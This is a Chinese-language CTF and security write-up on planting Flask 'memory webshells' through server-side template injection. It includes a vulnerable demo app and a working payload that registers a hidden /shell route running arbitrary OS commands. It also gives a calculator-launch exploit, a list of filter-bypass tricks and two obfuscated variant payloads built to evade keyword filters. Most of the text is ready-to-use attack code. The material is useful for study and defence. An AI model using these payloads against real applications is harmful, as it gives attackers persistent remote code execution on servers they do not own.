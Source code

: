 # Python 内存马
Author: H3rmesk1t

Data: 2022.02.09

## 前言
打安洵杯线下的时候有一道`Python`的`SSTI`模板注入的`AWD`题目, 由于之前没有怎么接触过关于`Python`的攻防点, 一度被别人种了`Python 内存马`都还没发现, 等比赛中断发现修补后的题目被打进来后, 查看流量记录才意识到攻击者前面是用的`Flask`内存马打的, 之前看过大概的思路却鸽了一直没学, 这里暂且记录一下相关知识点.

## 概念
常用的`Python`框架有`Django`、`Flask`, 这两者都可能存在`SSTI`漏洞. `Python 内存马`利用`Flask`框架中`SSTI`注入来实现, `Flask`框架中在`web`应用模板渲染的过程中用到`render_template_string`进行渲染, 但未对用户传输的代码进行过滤导致用户可以通过注入恶意代码来实现`Python`内存马的注入.

## Flask 请求上下文管理机制
当网页请求进入`Flask`时, 会实例化一个`Request Context`. 在`Python`中分出了两种上下文: 请求上下文(request context)、应用上下文(session context). 一个请求上下文中封装了请求的信息, 而上下文的结构是运用了一个`Stack`的栈结构, 也就是说它拥有一个栈所拥有的全部特性. `request context`实例化后会被`push`到栈`_request_ctx_stack`中, 基于此特性便可以通过获取栈顶元素的方法来获取当前的请求.

## 漏洞环境
先用`Flask`编写一个`SSTI-Demo`:

```python
from flask import Flask, request, render_template_string

app = Flask(__name__)


@app.route('/')
def hello_world():  # put application's code here
    person = 'knave'
    if request.args.get('name'):
        person = request.args.get('name')
    template = '<h1>Hi, %s.</h1>' % person
    return render_template_string(template)


if __name__ == '__main__':
    app.run()
```

原始`Flask`内存马`Payload`:

```python
url_for.__globals__['__builtins__']['eval']("app.add_url_rule('/shell', 'shell', lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read())",{'_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],'app':url_for.__globals__['current_app']})
```

命令执行结果:

![](./Python%20Flask%20内存马/1.png)

![](./Python%20Flask%20内存马/1.png)

## Payload 分析
将前面的`Payload`拆开来, 逐层分析.

```python
url_for.__globals__['__builtins__']['eval'](
    "app.add_url_rule(
        '/shell', 
        'shell', 
        lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read()
    )",
    {
        '_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],
        'app':url_for.__globals__['current_app']
    }
)
```

对于`url_for.__globals__['__builtins__']['eval']`这一截`Payload`, `url_for`是`Flask`的一个内置函数, 通过`Flask`内置函数可以调用其`__globals__`属性, 该特殊属性能够返回函数所在模块命名空间的所有变量, 其中包含了很多已经引入的`modules`, 可以看到这里是支持`__builtins__`的.

![](./Python%20Flask%20内存马/3.png)

![](./Python%20Flask%20内存马/4.png)

在`__builtins__`模块中, `Python`在启动时就直接为我们导入了很多内建函数. 准确的说, `Python`在启动时会首先加载内建名称空间, 内建名称空间中有许多名字到对象之间的映射, 这些名字就是内建函数的名称, 对象就是这些内建函数对象. 可以看到, 在`__builtins__`模块的内建函数中是存在`eval`、`exec`等命令执行函数的.

![](./Python%20Flask%20内存马/5.png)

```python
['ArithmeticError', 'AssertionError', 'AttributeError', 'BaseException', 'BlockingIOError', 'BrokenPipeError', 'BufferError', 'BytesWarning', 'ChildProcessError', 'ConnectionAbortedError', 'ConnectionError', 'ConnectionRefusedError', 'ConnectionResetError', 'DeprecationWarning', 'EOFError', 'Ellipsis', 'EnvironmentError', 'Exception', 'False', 'FileExistsError', 'FileNotFoundError', 'FloatingPointError', 'FutureWarning', 'GeneratorExit', 'IOError', 'ImportError', 'ImportWarning', 'IndentationError', 'IndexError', 'InterruptedError', 'IsADirectoryError', 'KeyError', 'KeyboardInterrupt', 'LookupError', 'MemoryError', 'ModuleNotFoundError', 'NameError', 'None', 'NotADirectoryError', 'NotImplemented', 'NotImplementedError', 'OSError', 'OverflowError', 'PendingDeprecationWarning', 'PermissionError', 'ProcessLookupError', 'RecursionError', 'ReferenceError', 'ResourceWarning', 'RuntimeError', 'RuntimeWarning', 'StopAsyncIteration', 'StopIteration', 'SyntaxError', 'SyntaxWarning', 'SystemError', 'SystemExit', 'TabError', 'TimeoutError', 'True', 'TypeError', 'UnboundLocalError', 'UnicodeDecodeError', 'UnicodeEncodeError', 'UnicodeError', 'UnicodeTranslateError', 'UnicodeWarning', 'UserWarning', 'ValueError', 'Warning', 'ZeroDivisionError', '_', '__build_class__', '__debug__', '__doc__', '__import__', '__loader__', '__name__', '__package__', '__spec__', 'abs', 'all', 'any', 'ascii', 'bin', 'bool', 'breakpoint', 'bytearray', 'bytes', 'callable', 'chr', 'classmethod', 'compile', 'complex', 'copyright', 'credits', 'delattr', 'dict', 'dir', 'divmod', 'enumerate', 'eval', 'exec', 'exit', 'filter', 'float', 'format', 'frozenset', 'getattr', 'globals', 'hasattr', 'hash', 'help', 'hex', 'id', 'input', 'int', 'isinstance', 'issubclass', 'iter', 'len', 'license', 'list', 'locals', 'map', 'max', 'memoryview', 'min', 'next', 'object', 'oct', 'open', 'ord', 'pow', 'print', 'property', 'quit', 'range', 'repr', 'reversed', 'round', 'set', 'setattr', 'slice', 'sorted', 'staticmethod', 'str', 'sum', 'super', 'tuple', 'type', 'vars', 'zip']
```

由于存在命令执行函数, 因此我们就可以直接调用命令执行函数来执行危险操作, `Exploit`如下:

```python
{{url_for.__globals__['__builtins__']['eval']("__import__('os').system('open -a Calculator')")}}
```

![](./Python%20Flask%20内存马/6.png)

接着再来看看`app.add_url_rule('/shell', 'shell', lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read())`这一截`Payload`. 这部分是动态添加了一条路由, 而处理该路由的函数是个由`lambda`关键字定义的匿名函数.

在`Flask`中注册路由的时候是添加的`@app.route()`装饰器来实现的, 跟进查看其源码实现, 发现其调用了`add_url_rule`函数来添加路由.

![](./Python%20Flask%20内存马/7.png)

跟进`add_url_rule`函数, 其参数说明如下:
 - rule: 函数对应的`URL`规则, 满足条件和`app.route`的第一个参数一样, 必须以`/`开头.
 - endpoint: 端点, 即在使用`url_for`进行反转的时候, 这里传入的第一个参数就是`endpoint`对应的值, 这个值也可以不指定, 默认就会使用函数的名字作为`endpoint`的值.
 - view_func: `URL`对应的函数, 这里只需写函数名字而不用加括号.
 - provide_automatic_options: 控制是否应自动添加选项方法.
 - options: 要转发到基础规则对象的选项.

![](./Python%20Flask%20内存马/8.png)

`lambda`即匿名函数, `Payload`中`add_url_rule`函数的第三个参数定义了一个`lambda`匿名函数, 其中通过`os`库的`popen`函数执行从`Web`请求中获取的`cmd`参数值并返回结果, 其中该参数值默认为`whoami`.

再来看看`'_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],'app':url_for.__globals__['current_app']}`这一截`Payload`. `_request_ctx_stack`是`Flask`的一个全局变量, 是一个`LocalStack`实例, 这里的`_request_ctx_stack`即上文中提到的`Flask 请求上下文管理机制`中的`_request_ctx_stack`. `app`也是`Flask`的一个全局变量, 这里即获取当前的`app`.

到此, 大致逻辑基本就梳理清晰了, `eval`函数的功能即动态创建一条路由, 并在后面指明了所需变量的全局命名空间, 保证`app`和`_request_ctx_stack`都可以被找到.

## ByPass
在实际应用中往往都存在过滤, 因此了解如何绕过还是必要的.
 - `url_for`可替换为`get_flashed_messages`或者`request.__init__`或者`request.application`.
 - 代码执行函数替换, 如`exec`等替换`eval`.
 - 字符串可采用拼接方式, 如`['__builtins__']['eval']`变为`['__bui'+'ltins__']['ev'+'al']`.
 - `__globals__`可用`__getattribute__('__globa'+'ls__')`替换.
 - `[]`可用`.__getitem__()`或`.pop()`替换.
 - 过滤`{{`或者`}}`, 可以使用`{%`或者`%}`绕过, `{%%}`中间可以执行`if`语句, 利用这一点可以进行类似盲注的操作或者外带代码执行结果.
 - 过滤`_`可以用编码绕过, 如`__class__`替换成`\x5f\x5fclass\x5f\x5f`, 还可以用`dir(0)[0][0]`或者`request['args']`或者`request['values']`绕过.
 - 过滤了`.`可以采用`attr()`或`[]`绕过.
 - 其它的手法参考`SSTI`绕过过滤的方法即可...

这里给出两个变形`Payload`:
 - 原`Payload`

```python
url_for.__globals__['__builtins__']['eval']("app.add_url_rule('/h3rmesk1t', 'h3rmesk1t', lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('shell')).read())",{'_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],'app':url_for.__globals__['current_app']})
```

 - 变形`Payload-1`

```python
request.application.__self__._get_data_for_json.__getattribute__('__globa'+'ls__').__getitem__('__bui'+'ltins__').__getitem__('ex'+'ec')("app.add_url_rule('/h3rmesk1t', 'h3rmesk1t', lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('shell', 'calc')).read())",{'_request_ct'+'x_stack':get_flashed_messages.__getattribute__('__globa'+'ls__').pop('_request_'+'ctx_stack'),'app':get_flashed_messages.__getattribute__('__globa'+'ls__').pop('curre'+'nt_app')})
```

 - 变形`Payload-2`

```python
get_flashed_messages|attr("\x5f\x5fgetattribute\x5f\x5f")("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetattribute\x5f\x5f")("\x5f\x5fgetitem\x5f\x5f")("__builtins__")|attr("\x5f\x5fgetattribute\x5f\x5f")("\x5f\x5fgetitem\x5f\x5f")("\u0065\u0076\u0061\u006c")("app.add_ur"+"l_rule('/h3rmesk1t', 'h3rmesk1t', la"+"mbda :__imp"+"ort__('o"+"s').po"+"pen(_request_c"+"tx_stack.to"+"p.re"+"quest.args.get('shell')).re"+"ad())",{'\u005f\u0072\u0065\u0071\u0075\u0065\u0073\u0074\u005f\u0063\u0074\u0078\u005f\u0073\u0074\u0061\u0063\u006b':get_flashed_messages|attr("\x5f\x5fgetattribute\x5f\x5f")("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetattribute\x5f\x5f")("\x5f\x5fgetitem\x5f\x5f")("\u005f\u0072\u0065\u0071\u0075\u0065\u0073\u0074\u005f\u0063\u0074\u0078\u005f\u0073\u0074\u0061\u0063\u006b"),'app':get_flashed_messages|attr("\x5f\x5fgetattribute\x5f\x5f")("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetattribute\x5f\x5f")("\x5f\x5fgetitem\x5f\x5f")("\u0063\u0075\u0072\u0072\u0065\u006e\u0074\u005f\u0061\u0070\u0070")})
```

![](./Python%20Flask%20内存马/10.png)

## 参考
 - [浅析Python Flask内存马](https://www.mi1k7ea.com/2021/04/07/%E6%B5%85%E6%9E%90Python-Flask%E5%86%85%E5%AD%98%E9%A9%AC/)
